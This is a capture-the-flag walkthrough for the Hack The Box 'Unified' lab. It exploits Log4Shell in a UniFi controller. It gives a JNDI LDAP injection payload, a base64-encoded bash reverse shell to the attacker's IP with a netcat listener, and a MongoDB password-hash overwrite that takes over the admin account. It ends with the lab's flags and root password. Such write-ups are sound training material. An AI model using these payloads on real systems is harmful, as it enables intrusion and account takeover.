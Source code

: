 # Unified
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Which are the first four open ports?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.
![nmap](img/nmap.png)
> **Answer:** 22,6789,8080,8443

**2. What is the title of the software that is running running on port 8443?**
![uni](img/unifi.png)
> **Answer:** UniFi Network

**3. What is the version of the software that is running?**
- Access to this via `https://[IP-Address]:8443` will automatedly redirect us to `/manage/account/login?redirect=%2Fmanage`, reveal a login page. The software version is also displayed here.  
![login](img/login.png)
> **Answer:** 6.4.54

**4. What is the CVE for the identified vulnerability?**
- Searching on the Internet about this program's version CVE will show us [this](https://github.com/puzzlepeaches/Log4jUnifi.git). This is about Log4j vulnerabilities in Unifi software, get a reverse shell, and leverage our access to add our own administrative user to the Unifi MongoDB instance.
> **Answer:** CVE-2021-44228

**5. What protocol does JNDI leverage in the injection?**
- Information on this can be found in security write-ups, such as [this one](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/?msockid=1369038a9eec646f38d717dc9ffe65a2) and we have **the protocol, such as “ldap”, “ldaps”, “rmi”, “dns”, “iiop”, or “http”, precedes the attacker domain**
> **Answer:** ldap

**6. What tool do we use to intercept the traffic, indicating the attack was successful?**
> **Answer:** tcpdump

**7. What port do we need to inspect intercepted traffic for?**
- The default port for LDAP is 389, as confirmed [here](https://serverfault.com/questions/682594/which-ports-are-required-in-order-to-authenticate-against-a-ldap-server-in-anoth)
> **Answer:** 389

**8. What port is the MongoDB service running on?**
- Use **Burp Suite** to intercept HTTP traffic. Send the **login** request to **Repeater**
![burp](img/burp.png)
- Change `remember` value to `"${jndi:ldap://[our-IP-Address]/whatever}"`. 
![repeat](img/repeatter.png)
- Before clicking **Send**, run `sudo tcpdump -i tun0 port 389` to capture all packets in port 389
![tcp](img/tcpdump.png)
- Or you can also use **WireShark** for the same purpose
![wire](img/wire.png)
- We see that there are some traffic between our machine and target machine. We can assume this program is vulnerable to **Log4J**.
- Here I use [this tool](https://github.com/veracode-research/rogue-jndi) to exploit this vulnerability. Install some dependencies and run `mvn package` to build it.
![mvn](img/mvn.png)
- Create a reverse shell and convert to Base64 with `echo 'bash -c bash -i >& /dev/tcp/[out-IP-Address]/4444 0>&1' | base64`
- Now run the program with the following payload: `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,[base64-string]}|{base64,-d}|{bash,-i}" --hostname "[our-IP-Address]"`. It will show some LDAP mappings
![tom](img/tomcat.png)
- Open a new terminal and run `nc -lvnp 4444` to start listening on a port
- Back to the **Burp Suite** Repeater, change value of **remember** to `"${jndi:ldap://[our-IP-Address]:1389/o=tomcat}"`. 
![burp](img/burp-tomcat.png)
- Clicking **Send** and it will start sending LDAP ref resource and Netcat will listen on the port. Now you can excecute commands as `unifi` user.
![nc](img/nc.png)
- You can also create a stable shell with `script /dev/null -c bash`
- Now run `ps aux | grep mongo` to search for processes related to MongoDB
![mong](img/mongo.png)
> **Answer:** 27117

**9. What is the default database name for UniFi applications?**
- Connect to MongoDB with `mongo --port 27117`, run `show databases` to list all databases  
![db](img/dtb.png)
> **Answer:** ace

**10. What is the function we use to enumerate users within the database in MongoDB?**
> **Answer:** db.admin.find()
- Run `mongo --port 27117 ace  --eval "db.admin.find().forEach(printjson);"` to retrieve all documents from the `admin` collection, printing each document in JSON format to the terminal. We can see that user `administrator` will have password (`x_shadow`) saved as SHA-512 
![find](img/find.png)

**11. What is the function we use to update users within the database in MongoDB?**
> **Answer:** db.admin.update()
- So now create a SHA-512 password with `mkpasswd -m SHA-512 [any-password-you-want]`
![make](img/make.png)
- Update the `administrator`'s `x_shadow` to the password we have created by `mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"[new-SHA512-string]"}})'`. 
![update](img/update.png)

**12. What is the password for the root user?**
- Now we can login with as `administrator` with the new password. Navitigate to **Settings**>**Device Authentication** to find the root password.  
> **Answer:** NotACrackablePassword4U2022

## Submit user flag
- Back to the unifi machine, the user flag should be located in `home/michael`
![flag](img/flag.png)
- **User flag:** 6ced1a6a89e666c0620cdb10262ba127

## Submit root flag
- Use SSH to login as root with the found password  and the flag is here  
![flag](img/ssh.png)  
- **Root flag:** e50bc93c75b634e4b272d2f771c33681
